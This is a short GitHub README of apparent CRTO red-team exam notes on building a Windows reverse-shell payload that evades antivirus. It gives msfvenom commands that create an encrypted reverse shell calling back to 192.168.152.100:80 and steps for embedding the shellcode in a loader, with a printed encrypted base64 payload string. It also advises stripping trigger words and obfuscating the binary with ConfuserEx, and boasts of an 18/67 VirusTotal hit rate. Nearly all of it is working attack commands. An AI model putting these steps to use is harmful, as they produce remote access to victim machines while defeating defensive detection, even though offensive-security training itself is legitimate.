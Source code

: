 # CRTO_Notes
Collection of things used for CRTO that might be useful

Encrypting C# shellcode
```
msfvenom --platform windows -p windows/shell_reverse_tcp LHOST=192.168.152.100 LPORT=80 -f csharp --encrypt aes256 --encrypt-key 12345678901234567890123456789012 --encrypt-iv 1234567890123456
```




```
Semi FUD
```

generate a csharp bytearray with msf

msfvenom --platform windows -p windows/shell_reverse_tcp LHOST=192.168.152.100 LPORT=80 -f c
sharp -o reverse-tcp.txt

Utilize Simple Loader to create an encoded b64 string and insert into the loader
`git clone https://github.com/cribdragg3r/Simple-Loader.git`

```C:\Tools>C:\Tools\Simple-Loader\Simple-Loader\bin\Debug\Simple-Loader.exe reverse-tcp.txt
[i] Encrypting Data
[i] Replace the hiphop variable with your new payload:

         String hiphop = "ZxOy1Bks+Vfrlq8wcmyHY8GwwiBZd8NGrGQiKvx15hcv9sQ9apoO6NGbNBxAeS4NLHSz4owcdPgQTTejYJr80Ke4ynoy41yrc5R+D0uqt1ppyxDAeYGATQy7xFbN247gwFee5cPZAFyBzbI6DvOLBFSJiP6+4kv5T7pX3iapVsX7ORmg7Ubfa1M9P/cYNm5qzS9dyHxFde/D578YA6DGYC0/UPzmeDXB11R0MWmPAkRGFftQp+YdurMHce1R4HC9bdCXIO3fdx7Gjy/pDwzh9eMtApiQa1B0Y7ZcEWj0LLHwl0kvAodjTX+M+tQJrsFmA53OcwzDlzlVD6YFXP9uOegIOif+bPSKnCXU0aRaY+U7RRr3QbBCfMtwAm1G6bwHrL6q1jeeWeZN+sWxZbCHnW6mNAOGeV/aG8qod5AqhlIXeIGomvKoPs4bxZ2wNEd7";
```

Remove all strings that are trigger words e.g. comments and "shellcode" "meterpreter" etc etc 

Utilize confuserEX to obfuscate the binary generated by the output 
git clone https://github.com/yck1509/ConfuserEx.git

Ez clap 
18/67 VT hitrate
